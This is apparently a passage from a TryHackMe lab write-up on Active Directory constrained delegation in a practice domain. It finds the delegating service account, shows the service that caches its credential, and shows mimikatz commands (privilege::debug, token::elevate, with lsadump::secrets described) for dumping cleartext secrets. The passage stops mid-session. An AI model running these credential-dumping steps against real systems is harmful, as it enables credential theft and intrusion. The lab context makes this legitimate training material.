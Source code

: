 There is only one user allowed to act as a delegate for other users, namely `svcIIS@za.tryhackme.loc`. This account 
is allowed to delegate access to `WSMAN/THMSERVER1.za.tryhackme.loc` and `http/THMSERVER1.za.tryhackme.loc`.

```text
PS C:\Users\t2_alan.riley> Get-CimInstance -ClassName Win32_Service | Where-Object {$_.StartName -like 'svcIIS*'} | Select-Object *


Name                    : thmwinauth
Status                  : OK
ExitCode                : 0
DesktopInteract         : False
ErrorControl            : Normal
PathName                : C:\Windows\system32.cmd.exe
ServiceType             : Own Process
StartMode               : Auto
Caption                 : thmwinauth
Description             :
InstallDate             :
CreationClassName       : Win32_Service
Started                 : False
SystemCreationClassName : Win32_ComputerSystem
SystemName              : THMWRK1
AcceptPause             : False
AcceptStop              : False
DisplayName             : thmwinauth
ServiceSpecificExitCode : 0
StartName               : svcIIS@za.tryhackme.loc
State                   : Stopped
TagId                   : 0
CheckPoint              : 0
DelayedAutoStart        : True
ProcessId               : 0
WaitHint                : 0
PSComputerName          :
CimClass                : root/cimv2:Win32_Service
CimInstanceProperties   : {Caption, Description, InstallDate, Name...}
CimSystemProperties     : Microsoft.Management.Infrastructure.CimSystemProperties
```

At system startup, the ``svcIIS`` account will auto-start a service which executes `C:\Windows\system32.cmd.exe`. 
That spawns a command prompt and causes the credential to be cached in memory.

### Dumping secrets with mimikatz

* token::elevate - To dump the secrets from the registry hive, we need to impersonate the `SYSTEM` user.
* lsadump::secrets - Mimikatz interacts with the registry hive to pull the clear text credentials.

```text
PS C:\Users\t2_alan.riley> C:\Tools\mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # token::elevate
```